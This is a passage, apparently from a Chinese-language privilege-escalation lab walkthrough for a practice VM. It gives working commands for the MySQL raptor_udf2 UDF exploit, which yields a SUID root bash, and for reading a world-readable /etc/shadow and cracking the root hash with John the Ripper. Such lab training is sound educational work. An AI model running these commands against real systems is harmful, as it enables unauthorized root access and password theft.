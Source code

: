 在 MySQL shell 中执行以下命令，创建一个名为 `do_system` 的用户定义函数（UDF），使用我们编译的漏洞利用代码：

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

使用该函数将 `/bin/bash` 复制到 `/tmp/rootbash` ，并设置 SUID 权限：

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

退出 MySQL shell（输入 `exit` 或 `\q` 然后按 Enter），然后运行 `/tmp/rootbash` 可执行文件，并使用 -p 参数获取一个具有 root 权限的 shell：

```shell
/tmp/rootbash -p
```

记得在继续之前删除 `/tmp/rootbash` 可执行文件并退出 root shell，因为你将在后面的步骤中再次创建这个文件！

```shell
rm /tmp/rootbash
exit
```

## 弱文件权限 - 可读取 /etc/shadow

`/etc/shadow` 文件包含用户密码哈希值，通常只有 root 用户可读。

请注意，虚拟机上的 `/etc/shadow` 文件可以被所有用户读取：

```shell
ls -l /etc/shadow
```

查看 /etc/shadow 文件的内容：

```shell
cat /etc/shadow
```

文件中的每一行代表一个用户。用户的密码哈希（如果存在）可以在每行的第一个冒号（:）和第二个冒号（:）之间找到。

将 root 用户的哈希保存到名为 `hash.txt` 的文件中，并使用 `John the Ripper` 进行破解。根据你使用的 Kali 版本，你可能需要先解压 `/usr/share/wordlists/rockyou.txt.gz` 文件，并使用 sudo 运行该命令：

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

使用破解后的密码切换到 `root` 用户：

```shell
su root
```

记得在继续之前退出 root shell！
